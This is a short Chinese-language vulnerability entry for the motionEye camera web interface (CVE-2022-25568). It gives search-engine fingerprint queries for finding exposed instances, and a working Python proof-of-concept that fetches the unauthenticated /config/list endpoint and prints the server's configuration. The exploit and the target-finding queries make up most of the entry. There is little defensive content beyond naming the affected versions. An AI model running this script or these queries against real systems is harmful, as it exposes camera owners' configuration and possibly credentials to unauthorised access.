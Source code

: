 # MotionEye 视频监控组件 list 信息泄漏洞 CVE-2022-25568

## 漏洞描述

*motionEye*是用 Python 写的 motion 的 Web 前端，它可以监视视频信号并检测运动。它可以与多种类型的摄像机配合使用,也可以与电影文件一起使用,从而使您可以分析录制的视频，其中存在一个信息泄漏漏洞，通过构造特定的 URL 即可获取服务器敏感信息

## 漏洞影响

```
MotionEye <= v0.42.1
```

## 网络测绘

```
banner="motionEye"

app="motionEye"
app="motionEye-摄像头服务器"
app="motionEye/0.39.3"
app="motionEye/0.40"
app="motionEye01"
app="motionEye/0.33"
app="motionEye/0.35"
```

## 漏洞复现

通过查看响应 Server 判断是否使用，访问路由 `/config/list`

## 漏洞 POC

```python
import sys
import json
import requests
def exp(url):
    if url[-1] == "/":
        url = url + "config/list"
    else:
        url = url + "/config/list"
    rus = requests.get(url, verify=False)
    print("信息泄露内容:")
    print(json.dumps(json.loads(rus.text), sort_keys=True, indent=4))
if __name__ == '__main__':
    ip = sys.argv[1]
    print("访问IP:{0}".format(ip))
    exp(ip)
```
